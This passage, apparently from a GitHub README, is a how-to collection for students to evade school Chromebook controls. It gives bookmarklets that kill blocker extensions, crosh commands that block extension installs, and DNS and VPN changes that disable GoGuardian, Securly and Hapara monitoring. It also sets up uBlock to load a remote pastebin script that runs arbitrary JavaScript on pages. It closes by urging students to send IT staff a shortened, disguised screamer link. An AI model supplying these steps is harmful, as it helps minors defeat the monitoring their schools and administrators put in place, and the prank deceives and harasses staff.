2. Workaround for `chrome://settings/signOut` and `javascript:opener.chrome.send("TurnOffSync");` if both patched: Just go to `chrome://settings/syncSetup/advanced` and click 
Customize sync and then flip off the Extensions and Apps

Note: Before you do any of the method 4 tricks only do this at home so that way you don't have to worry about asking for the school wifi password.

</details>

<details>
<summary><b>New Temporarily Unblock Anything</b> Temperarily Unblock Any Website</summary>

**Might Be Patched on 115 And Above**

1. Go to the chrome-extension://Paste the blocker id here/manifest.json page.
2. Go to a new tab page and type in the URL Website you want to unblock don´t go into that website yet just leave it inside the URL Box.
3. Go back to chrome-extension://Paste the blocker id here/manifest.json now create a bookmark called E now click more and In the URL Box you put chrome://kill now save that bookmark.
4. Create another bookmark called D. Click more In the URL Box copy and paste  `javascript:(function () {window.onbeforeunload = function() { return 1; };})()`    Into that URL Box and save that bookmark.
5. Go back to chrome-extension://Paste the blocker id here/manifest.json page and now click bookmark B. Then quickly go back to the new tab page and click enter now quickly spam bookmark D like 2 or more times now there should be a pop-up called `Do you want to close this page?` click cancel now boom that website is unblocked until you turn off your Chromebook or until you exit out of that website then if that happens your gonna have to do all the steps again.

An easier way for step 2: instead of putting the URL in the new tab box go to chrome-extension://Paste the blocker id here/manifest.json page then click Bookmark E then go to a random website then use the `javascript:open('https://YOUR WEBSITE HERE?'+'i'.repeat(1))` Bookmarklet then spam Bookmark D two or more times then a pop up should appear quickly click cancel now boom all done.
  
Name of Bookmarklet > Unblock Website: `javascript:open('https://YOUR WEBSITE HERE?'+'i'.repeat(1))`

Note: Save `chrome-extension://Paste` the blocker id here/manifest.json as a bookmark so you don´t have to come back here and type in the URL thing.

IMPORTANT NOTE: if bookmarklets are blocked your screwed

</details>

<details>
<summary><b>Old Temporarily Unblock Anything</b> Temperarily Unblock Any Website</summary>

1. make a bookmark called tab close blocker now click more on the bottom left corner in that URL BOX put `javascript:(function () {window.onbeforeunload = function() { return 1; };})()`
2. go to a newtab page now go into the URL BOX on the top and put https://YOUR WEBSITE HERE do not click enter yet stay in that URL BOX.
3. do search+esc now that should open task manager if search+esc doesn't work then click the three dots on the top right now and scroll down until you find more tools click that and now find Task Manager click it now boom done with step 3.
4. find your blocker extension and click it now on the bottom right you should see a button called End process click it now quickly click the URL BOX on the new page and click enter now quickly spam the bookmark tab close blocker Now a pop up should come up it should have to buttons cancel and leave click cancel and boom done.
  IMPORTANT NOTE: if bookmarklets are blocked your screwed also if task manager or the End Process button for the task manager is blocked your double screwed.
  </details>
  
  <details>
  <summary><b>Incognito</b> Bypass Extensions</summary>
IP Server: Server 1. 52.207.185.90

1. Go to your settings
2. Click on the wifi your using rn then click it again.
3.  Scroll down until you see network once you see the option click it.
4. Scroll down until you find custom name servers now once you find the option click it.
5. Paste in the IP Server.
6. Now there should be a notification saying open a new tab click that and now you should be in a small window some instructions and there are 2 buttons click the yellow with black letters button and boom Incognito Mode is Unblocked.
One of the buttons are just a link in blue don´t click that one is just for tests
7. Go back to the network settings and change the custom name servers to automatic name servers.

Note: If your connection is slow if your school has more than one wifi then connect to the other wifi that might have a better connection.
If you close out of the Incognito Tab you will have to do all the steps again.
Cool Advanced Facts About Incognito Mode:
1. Bypass Extensions Aka Unblock All Websites.
2. Your History Is Hidden From Your School
</details>
<details>
<summary><b>Google System Method</b> Bypass Extensions</summary>
Unblocked Google

1. Go to `chrome://chrome-signin`
2. Click OK on the bottom right corner
3. In the Email text box put `google@d11.org`
4. Click `signin options`
5. Now click sign in with GitHub
6. Click the GitHub cat icon
7. In the search box on the top right type google and then click see more topics then you will see all the Google links click `www.google.com` now boom unblocked Google.

</details>
<details>
<summary><b>Quick View</b> Bypass Extensions</summary>
**QuickView is a universal web view exploit in Chrome OS that utilizes the QuickOffice component extension. This exploit lets you create login windows with arbitrary URLs, thus allowing you to load pages without any extensions.**
Go here and follow the instructions: https://quickview-exploit.pages.dev/
WARNING: If javascript:// is blocked then you can't perform this exploit

</details>

<details>
<summary><b>School Network Restriction Bypass</b> Bypass School Network Restrictions</summary>
IP Server 1: 8.8.8.8 in all boxes
IP Server 2: 1.1.1.1 in the first box and 1.0.0.1 in the second box the third and fourth boxes stay 0.0.0.0

1. Go to your settings
2. Click on the wifi you using right now then click it again.
3.  Scroll down until you see the network once you see the option click it.
4. Scroll down until you find custom name servers once you find the option click it.
5. Paste in one of the IP Servers.
Note: If IP Server 1 doesn't work then use IP Server 2 if IP Server 2 doesn't work then try using IP Server 1 if they both don't work you're screwed

</details>

<details>
<summary><b>OP Crosh</b> Disable extensions with crosh</summary>

1. Back up any data you want before the powerwash.
2. If you're doing the second variation, note down any extension IDs. You may also want to do this if you intend on disabling all extensions since sometimes that will fail and require you to specify each extension you want to disable.
3. Powerwash by attempting to enable developer mode. Instructions are available here: [this link](https://chromium.googlesource.com/chromiumos/docs/+/master/developer_mode.md#dev-mode)
4. Log into your Google account as normal, but immediately disable your internet right after you sign in.
5. You should be logged into your account, but without any extensions installed due to being offline.
Here the instructions are split, so follow the one for the method that you want to do.
 
Disable All Extensions:
1. Open up crosh by hitting ctr+alt+t.
2. Type in `vmc create-extra-disk --size 1 /home/chronos/user/Extensions`
3. Run that command.
4. If it fails with a "file exists" error, then you must individually specify each extension that you want to remove. Move to step 5 of the next section to do that.
5. Re-enable your internet, and no extensions should be installed.
 

Disable Specific Extensions:
1. Navigate to `chrome://extensions`.
2. Enable your internet, and immediately disable it when an extension is installed.
3. Assuming the installed extension was not one that you were trying to disable, move on to step 4. If it was, you'd have to powerwash to try again.
4. Open up crosh by hitting ctr+alt+t.
5. For each extension you want to disable, run this command: `vmc create-extra-disk --size 1 /home/chronos/user/Extensions/{extension_id}`
6. Each command should look something like this: `vmc create-extra-disk --size 1 /home/chronos/user/Extensions/cjpalhdlnbpafiamejdnhcphjbkeiagm`
7. Re-enable your internet, and if you typed/pasted in the extension IDs correctly, those specific extensions should be blocked from ever being installed.

Made by vk6

</details>

<details>
<summary><b>uBlock Origin</b> Run Code On Pages</summary>

if your school allows the ublock origin chrome extension, then running the edpuzzle script (as well as any other bookmarklet) is possible

1. install ublock origin (<a href="https://chrome.google.com/webstore/detail/ublock-origin/cjpalhdlnbpafiamejdnhcphjbkeiagm">https://chrome.google.com/webstore/detail/ublock-origin/cjpalhdlnbpafiamejdnhcphjbkeiagm</a>)

2. go to the extension's settings

3. under the settings tab, check the "i am an advanced user" box and click on the cog icon

4. inside the advanced settings (chrome-extension://cjpalhdlnbpafiamejdnhcphjbkeiagm/advanced-settings.html), scroll down and find userResourcesLocation now change userResourcesLocation from unset to <a href="https://pastebin.com/raw/PPZ1T7uh">https://pastebin.com/raw/PPZ1T7uh</a>

5. in the My filters tab of the settings (chrome-extension://cjpalhdlnbpafiamejdnhcphjbkeiagm/dashboard.html#1p-filters.html), add *##+js(execute_script.js) as a filter

6. now you can press ctr+alt+tilde (~) to run any js on the current page

7. if you want to run a bookmarklet, just paste in the javascript: url and press ok on the popup

</details>

</details>

<details>
<summary><b>Incognito on Sign-In</b> Bypass Extensions/Unblocked Google Webview</summary>
Might work but idk if it will

IP Servers: Server 1. `52.207.185.90`
            Server 2. `158.111.114.159`

1. On the sign-in screen go to your Wi-Fi settings and click on the wifi you are using right now.
2. Then Scroll down until you see network once you see the option click it.
3. Scroll down until you find custom name servers once you find the option click it.
4. Paste in the IP Servers
5. Now on the network settings click the sign in and you should be in a small window with some instructions, there are 2 buttons click the blue link and boom unblocked webview of google.

Cool Facts About Incognito Mode:
1. No Extensions.
2. Your History Is Hidden From Your School*

*If your school does not have network logs or anything like that

</details>

<details>
<summary><b>chrome-signin webview</b> Yet another webview bypass</summary>
  
1. Go to `chrome://chrome-signin`
2. Click OK on the bottom right corner
3. In the Email text box put `google@d11.org`
4. Click `sign in options`
5. Now click sign in with GitHub
6. Click the GitHub logo
7. In the search box on the top right type Google and then click see more topics then you will see all the Google links click `www.google.com`
8. Profit

</details>

<details>
<summary><b>chrome-signin webview 2</b> Yet another webview bypass</summary>
Unblocked Google
  
1. Go to `chrome://chrome-signin`
2. Click OK on the bottom right corner
3. In the Email text box put `google@d11.org`
4. Click `signin options`
5. Now click sign in with GitHub
6 Click forgot password instead of the GitHub logo
7. Click docs
8. Scroll down
9. Click Ask the GitHub community
10. Search Google and click the hyperlink on the right

Credit to snail for finding this workaround.

</details>

<details>
<summary><b>Microsoft Labs</b> Bypass Extensions</summary>

YOU NEED A MICROSOFT ACCOUNT FOR THIS

Go to: <a href="https://learn.microsoft.com/en-us/training/modules/implement-common-integration-features-finance-ops/10-exercise-1">https://learn.microsoft.com/en-us/training/modules/implement-common-integration-features-finance-ops/10-exercise-1</a>

Next, sign into your Microsoft account, if it doesn't already, go back to that link

Then, hit Launch VM Mode

After it loads it's gonna ask for a password, the password is pass@word1 See images attached if needed

Then boom, you are done.

It's still kinda limited, like you can't go on Spotify sound doesn't output anyway and it, blocks random sites, but Discord 100% works

</details>

<details>
<summary><b>Quick View Exploit</b> Bypass Extensions</summary>

**QuickView is a universal webview exploit in Chrome OS that utilizes the QuickOffice component extension. This exploit lets you create login windows with arbitrary URLs, thus allowing you to load pages without any extensions.**

Go to <a href="https://quickview-exploit.pages.dev/">this link</a> and follow instructions

WARNING: If javascript:// is blocked then you can't preform this exploit

</details>

<details>
<summary><b>Buypass</b> Temporarily Unblock Websites</summary>

Exploit Made By <a href="https://buymeacoffee.com/bypassi">Bypassi#7037</a>

Here's the original GitHub repo of the buypass exploit: <a href="https://github.com/bypassiwastaken/buypass">Bypassi#7037's Buypass Exploit Github Repo</a>

Here's the original website of the buypass exploit: <a href="https://buypass.bypassi.com/">Bypassi#7037's Buypass Exploit Website</a>

Here are 3 alternative websites for the buypass exploit:

1. <a href="https://buypass.brandonprather.repl.co/">Buypass Exploit Repl Website</a>

2. <a href="https://buypass.glitch.me/">Buypass Exploit Glitch Website</a>

3. <a href="https://buypass.netlify.app/">Buypass Exploit netlify.app Website</a>

This Exploit Is Kinda Similar To The Quick View Exploit

</details>

<details>
<summary><b>[Webview] Testnav Exploit</b> Unblocked Webview for either google or a web browser</summary>

Step 1. Download Testnav off the webstore/playstore/or run as a kiosk app as some schools have it added as one
Step 2. Open it
Step 3. After opened it will probably bring you to the page were you select your consumer, click aimsweb/aimsweb plus
Step 4. After you click goto select your district in the bottom right corner of the page
Step 5. Select “STRATFORD FRIENDS SCHOOL” 
Step 6. Click the arrow to the right of the selection box
Step 7. Click sign in options
a) Click sign in with github
Step  8. Click the github logo at the top of the screen
Step 9. Click the three bars in the top right corner, then goto the search box and type in googleyay
Step 11. Scroll down until you see DerDer56/googleyay
Step 12. There's several links to choose from, but if there's a link you want that's not there click the Bypassi Redirect Tool
(Optional) Step 13. Type in the link you want to go on and click "Go To the URL"
Step 14. Click it and you have webview (unblocked browser)

</details>

<details>
<summary><b>Disable GoGuardian With The Chat</b> Disable GoGuardian [Unreliable]</summary>

1. wait until your teacher opens the chat window thingy

2. spam the x button until it stops re-opening

3. open the url `chrome-extension://haldlgldplgnggkjaafhelgiaglafanh/manifest.json`

4. open `chrome://extensions/?id=haldlgldplgnggkjaafhelgiaglafanh`, and toggle the “allow access to file:// urls” switch

goguardian is now disabled and you can close both tabs 

made by carteeeee

</details>

<details>
<summary><b>Temporary Disable GoGuardian using a dns</b> Temporarily Disable GoGuardian</summary>

This method will remove GoGuardian from your Chromebook and keep it off, until you switch to a non-DNS wifi

1 - Powerwash your Chromebook

A) esc+refresh+power

B) then "ctrl"+"d" and then space or enter from then on

2 - Immediately after you add wifi to your Chromebook add the DNS record 158.101.114.159

A) Click on the menu at the bottom right of the screen and Click the Settings icon, go to your wifi, scroll to the bottom and open the networks dropdown, choose the "Custom name server" bubble, change the first box to 158.101.114.159

</details>

<details>
<summary><b>Insecurly</b> Disable Or Bypass Securly</summary>

**ONLY FOR SECURLY USERS**

Go to <a href="https://insecurly.bypassi.com/">this link</a> and follow instructions

If blocked then go cry in a corner
</details>

<details>
<summary><b>Chaos</b> A full bypass method for Hapara Highlights and Hapara Filter</summary>

**Devtools must not be blocked by policy to perform this exploit.**

Go to <a href="https://xlak.github.io/chaos/">this link</a> and follow instructions
</details>

<details>  
<summary><b>Network Bypassing</b> A bypass for any network filters.</summary>

ONLY FOR NETWORK FILTERS. A network filter is something that blocks website on the actual network instead of the operating system. Thus you can't disable with exploits like LTBEEF or LTMEAT.

Go to <a href="https://drive.google.com/file/d/1MGVFf8d9pww0M2bO9ogxQX1LyR1y6zc_/view">this link</a> once you have downloaded the ONC file. Goto chrome://network and press "Import ONC File". You will have know if it worked if it says: "Network imported: 1". Then click on the time, or goto settings. Find VPN, click on it and click on the "Haven VPN" it will say "Connected" and now you are free.


If chrome://network is blocked, start bawling your eyes out and beat up your IT manager. 
</details>

<details>  
<summary><b>Filter session bypass</b> Bypass hapara filter session</summary>

Bookmark this link: [filtersessionbypass.txt](filtersessionbypass.txt)

During a filter session, right click the link, and press "Open in a new tab"
Then insert the URL for any website you want to go to.  Make sure to include https://<br>
If it says "website name refused to connect", try using a web proxy.<br>
Also this dosn't bypass blocker extentions so use an unblocked link, or another exploit.
</details>

boop



If you are a student who believes in privacy and freedom, heres a tutorial on how to annoy your IT manager: Send them emails to approve this website since it is required for doing a project/homework assignment: "https://stock-images.0o.si/?p#/old-man-tries-to-climb-ladder-falls-down-and-eats-cookie-2298498123". It is recommended to shorten the link with bit.ly, ad.fly, or gg.gg or any other shortner as they might get suspicious looking at the URL. Once they click on the website and press the popup they will be met with an obxniously loud sound (aka a screamer).
